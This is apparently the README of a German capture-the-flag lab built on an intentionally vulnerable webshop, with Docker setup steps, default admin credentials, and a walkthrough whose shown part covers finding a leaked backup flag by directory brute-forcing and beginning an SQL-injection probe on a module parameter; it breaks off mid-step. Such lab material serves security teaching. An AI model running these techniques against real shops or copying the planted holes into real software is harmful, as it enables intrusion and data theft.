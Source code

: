     docker compose -f docker-compose_v2.yml build --no-cache
    docker compose -f docker-compose_v2.yml up -d

Webshop: http://localhost:8080

Im Falle einer Installation mit externer IP muss sich im Adminportal 
http://\<IP-Adresse\>:8080/admin9625 angemeldet werden mit admin@example.com und Passwort: password

Unter Preferences --> SEO & URLs runterscrollen und unter Set shop URL die IP-Adresse+Port eintragen. Dann sollte der Container auch über die IP verfügbar sein aber nicht über localhost, da diese Einstellung jeder PHP Link auf die eingestellte Adresse weiterleitet.

# CTF Walkthrough

---

## Inhaltsverzeichnis

1. [Flag 1: Backup-Leak](#flag-1-backup-leak)  
2. [Flag 2: SQL-Injection im ndk_steppingpack](#flag-2-sql-injection-im-ndk_steppingpack)  
3. [Flag 3: SSH-Key Injection via File-Upload](#flag-3-ssh-key-injection-via-file-upload)  
4. [Flag 4: Privilege Escalation via Cron](#flag-4-privilege-escalation-via-cron)  

---

## Flag 1: Backup-Leak
Vulnerable Path:
backup/flag1.txt

z.B. Findbar durch 

    feroxbuster -u http://localhost:8080 -w /usr/share/wordlists/dirb/common.txt -x .txt

Exploit:

    curl http://localhost:8080/backup/flag1.txt


 
⇒ FLAG{Backup Leak}  Es gibt einen User auf dem Server mit dem Nutzernamen CTF


## Flag 2: SQL-Injection im ndk_steppingpack
Modul:
modules/ndk_steppingpack/
– Front-Controller quote mit ungefiltertem product_id

Zu finden im Header rechts oben als button mit dem Namen "Current Order" Gibt eine Json zurück und sieht mit dem URL Parameter nach möglichem SQL aus ==> **?product_id=1**

Test SQL Injection

    curl -s "http://localhost:8080/index.php?fc=module&module=ndk_steppingpack&controller=quote&product_id=1"
    ⇒ [{"product_id":"1","data":"CTF-Pack-Demo"}]
    Spalten-Probe (2 Spalten: product_id,data):
